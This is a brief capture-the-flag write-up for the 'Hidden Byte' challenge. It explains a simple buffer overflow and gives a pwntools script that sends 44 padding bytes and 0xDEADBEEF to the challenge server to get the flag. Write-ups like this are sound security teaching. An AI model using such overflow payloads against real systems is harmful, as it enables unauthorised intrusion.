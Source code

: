 # Hidden Byte

This is a simple buffer overflow. The program has a 44 character buffer, and the next variable needs to be overwritten with `0xDEADBEEF` to return the flag.

```py
from pwn import *

io = remote('chal.tuctf.com', 30012)

io.send(b'a'*44)
io.pack(0xDEADBEEF)

io.interactive()
```